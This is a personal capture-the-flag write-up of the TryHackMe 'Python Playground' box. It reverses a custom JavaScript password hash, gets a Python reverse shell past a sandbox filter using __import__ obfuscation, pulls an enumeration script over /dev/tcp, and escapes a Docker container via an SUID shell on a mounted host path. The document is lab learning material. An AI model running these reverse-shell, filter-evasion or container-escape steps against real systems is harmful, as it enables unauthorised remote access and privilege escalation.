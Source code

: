 # Python-Playground Helped-Through

Name: Python-Playground
Date: 6/5/2023 
Difficulty:  Hard
Goals:  
- Pythonic Expertise
- Requests library brain scarring needs to occur 
Learnt:
Beyond Root:
- Finish [[Racetrack-Bank-Helped-Through]] python script and another for this box

Need to some THM, but I also need to figure out a best in slot FTP server for CTFs (build and tear down) and one that is a most secure for just in case and for one of the Beyond Root challenges for [[Kotarak-Helped-Through]]. I decided that I have not done a Alh4zr3d stream in a week so I also need to improve my Python so I chose [Cthulhu Cthursday: TryHackMe's "GameBuzz" and "Python Playground"](https://www.youtube.com/watch?v=AqNKLu_y6H8). I also need to do some execise in the intervals. This Helped-Through is paired with [[GameBuzz-Helped-Through]]. 

Apparently these are malders. I here to learn to boulder the malders one day.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Python-Playground/Screenshots/ping.png)

Nmap found:
![](csabd.png)

![](supersecretpanel.png)



```javascript
function string_to_int_array(str) {
    const intArr = [];
    for (let i = 0; i < str.length; i++) {
        const charcode = str.charCodeAt(i);
        // This is not reversible as result of modulus and division 
        const partA = Math.floor(charcode / 26);
        const partB = charcode % 26;
        intArr.push(partA);
        intArr.push(partB);
    }
    return intArr;
}

function int_array_to_text(int_array) {
    let txt = '';
    for (let i = 0; i < int_array.length; i++) {
        txt += String.fromCharCode(97 + int_array[i]);
    }
    return txt;
}

```

Reversing attempt:
```js
hash = 'dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu'
tmp = int_array_to_text(hash)
tmp = string_to_int_array(tmp)
tmp = int_array_to_text(tmp)
const hash = int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(chosenPass))))
const tmp = string_to_int_array(int_array_to_text(string_to_int_array(int_array_to_text(hash))))
```

Python things learnt
```python
# Python chr() function takes integer argument and return the string representing a character at that code point. 
chr()
# The _ord()_ function returns an integer representing the Unicode character.
ord()
```

Walking through the reversing of the functions Alh4zr3d really shines. The only mistake was just multiplication of a variable when the control was a for loop.
```python
#!/usr/share/python3

def int_array_to_string(int_array):
    result = ""
    i = 0
    while i < len(int_array):
        char_code = int_array[i] * 26
        i += 1
        char = chr(char_code + int_array[i])
        result += char
        i += 1

    return result


def string_to_int_array(string):
    result = []
    for i in string:
        result.append(ord(i) - 97)
    return result


def main():
    hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
    print(int_array_to_string(string_to_int_array(int_array_to_string(string_to_int_array(hash)))))
    exit()

if __name__ == '__main__':
    main()
```
``

## Exploit

Super secret python playground.
![](athreattosecurity.png)


We will probably need to evade filting of a reverse shell
```python
import 
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
Needs to be changes - Sandboxes are not filters but function the same [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) - tried various keywords and builtins, but to no success

![](importmod.png)

![](open0.png)

Learning that simple obfuscation - Al pointed the way
```python
# Reverse the strings and return back to intended form with [::-1]
# base64 encoding
"so tropmi"[::-1]

socket = __import__("socket", globals=None, locals=None, fromlist=(), level=0)
os = __import__("os", globals=None, locals=None, fromlist=(), level=0)
pty = __import__("pty", globals=None, locals=None, fromlist=(), level=0)
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.43.145",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![](rootinthedockercontainer.png)




## Docker Bre..ssh Connor Site remember... but PrivEsc

Docker enumeration
```bash
mount # Key 
```

![](dockerprocs.png)

Transfer Deepce.sh
```bash
# Use nc to serve the file
nc -lvnp 80 < deepce.sh
# Target machine
bash -c "cat < /dev/tcp/10.14.43.145/80 > /tmp/deepce.sh"
```

Annoyingly we could just ssh in a connor as we know it connors site...
![](roothasscripts.png)

![](weirdport.png)

![](weirdport.png)

```bash
mount # check if it is mounted into the host filesystem 
# If so and you are root in dockerenv
cp /bin/sh $mount_misconfiguration_dir
# Give the binary suid privileges
chmod u+s /bin/sh  
# And PrivEsc on the host after breakout.
```
  
![](privescthrutoroot.png)

## Beyond Root

[[Racetrack-Bank-Helped-Through]] - One Account to Rule them all
